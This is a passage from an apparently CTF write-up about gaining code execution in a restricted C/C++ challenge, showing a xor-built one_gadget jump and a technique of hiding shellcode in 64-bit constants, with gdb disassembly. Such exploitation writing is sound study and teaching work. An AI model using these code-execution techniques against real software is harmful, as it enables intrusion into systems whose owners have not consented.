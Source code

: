```cpp
    zero xor_eq zero;
    register unsigned long zeroo;
    zeroo xor_eq zeroo;
    register unsigned long zerooo;
    zerooo xor_eq zerooo;
    register unsigned long zeroooo;
    zeroooo xor_eq zeroooo;
    register unsigned long zerooooo;
    zerooooo xor_eq zerooooo;
    register unsigned long zeroooooo;
    zeroooooo xor_eq zeroooooo;
    register unsigned long zerooooooo;
    zerooooooo xor_eq zerooooooo;

    extern unsigned long stdout;
    unsigned long one_gadget;
    one_gadget xor_eq one_gadget;
    one_gadget xor_eq stdout;
    one_gadget xor_eq x;
    one_gadget xor_eq zero;
    one_gadget xor_eq zeroo;
    one_gadget xor_eq zerooo;
    one_gadget xor_eq zeroooo;
    one_gadget xor_eq zerooooo;
    one_gadget xor_eq zeroooooo;
    one_gadget xor_eq zerooooooo;

    goto *one_gadget;
}
```

## Second Idea: `goto *shellcode;`

After failing with the one gadget idea, we came up with another idea which ended up being our actual solve during the CTF. It is easiest to explain with some snippets. Consider a program like this:

```cpp
int main() {
    long x = 0x9090909090909090;
}
```

If we just jump to `0x112f`, we would be executing the `nop` instructions that we encoded in the constant value:

```
gef> disas main
Dump of assembler code for function main:
   0x0000000000001129 <+0>:	push   rbp
   0x000000000000112a <+1>:	mov    rbp,rsp
   0x000000000000112d <+4>:	movabs rax,0x9090909090909090
   0x0000000000001137 <+14>:	mov    QWORD PTR [rbp-0x8],rax
   0x000000000000113b <+18>:	mov    eax,0x0
   0x0000000000001140 <+23>:	pop    rbp
   0x0000000000001141 <+24>:	ret
End of assembler dump.
gef> x/8i 0x112d+2
   0x112f <main+6>:	nop
   0x1130 <main+7>:	nop
   0x1131 <main+8>:	nop
   0x1132 <main+9>:	nop
   0x1133 <main+10>:	nop
   0x1134 <main+11>:	nop
   0x1135 <main+12>:	nop
   0x1136 <main+13>:	nop
```
